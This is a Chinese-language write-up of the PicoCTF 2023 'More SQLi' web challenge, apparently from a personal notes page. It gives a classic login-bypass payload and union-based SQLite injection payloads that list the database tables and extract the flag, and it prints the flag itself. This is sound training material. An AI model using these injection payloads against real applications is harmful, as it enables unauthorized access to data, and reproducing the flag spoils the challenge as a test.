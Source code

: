 ```yaml
---
title: PicoCTF - More SQLi
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - More SQLi
<!-- more -->

## Background
* [Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)
* Hint SQLiLite

## Recon
先隨便輸入發現他很貼心有給完整的payload，發現他是先檢查password，在沒有任何防護的情況下，直接用最經典的payload就可了
Account: Any
Password: `' or '1'='1' -- #`
![](https://hackmd.io/_uploads/rJXd-oLd3.png)

---
![](https://hackmd.io/_uploads/Bki0WoLd3.png)

## Exploit - SQLi(Union Selection)
現在的目標是flag應該是藏在別的table，所以先找甚麼table
1. 找table
透過[Kaibro的cheat sheet](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)，SQLite的爆破payload是`SELECT name FROM sqlite_master WHERE type='table'`，而目前我們可以用union based的方式搜尋，先觀察搜尋`Algiers`的搜尋column有三個，第一個column是chr，第二個column是chr，第三個是int，所以在用union select的時候要遵守<font color="FF0000">**查詢數量一樣、每個欄位的型態一樣**</font>
Payload: `Algiers' union SELECT sql,sql,1 FROM sqlite_master WHERE type='table'; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/rk9G4oLO2.png)
    :::
2. Find Flag - Union based
目前發現有兩個table比較可疑
    * CREATE TABLE hints (id INTEGER NOT NULL PRIMARY KEY, info TEXT)
    * CREATE TABLE more_table (id INTEGER NOT NULL PRIMARY KEY, flag TEXT)
    
    可以直接用前面同樣的方式找flag，觀察這個table只有兩個column，且一個column的type是int，另外一個是text，而第三個column就隨便填
    Payload: `Algiers' union SELECT id,flag,1 FROM more_table; --`
    :::spoiler Screenshot
    ![](https://hackmd.io/_uploads/ryonEoIdn.png)
    :::
    Flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_98236ce6}`

## Reference
[ picoCTF 2023 More SQLi ](https://youtu.be/W1EjP6OFpUQ)
[Kaibro - SQLi](https://github.com/w181496/Web-CTF-Cheatsheet#sqlite)
[Feifei Lab](https://lab.feifei.tw/practice/sqli/sql4.php)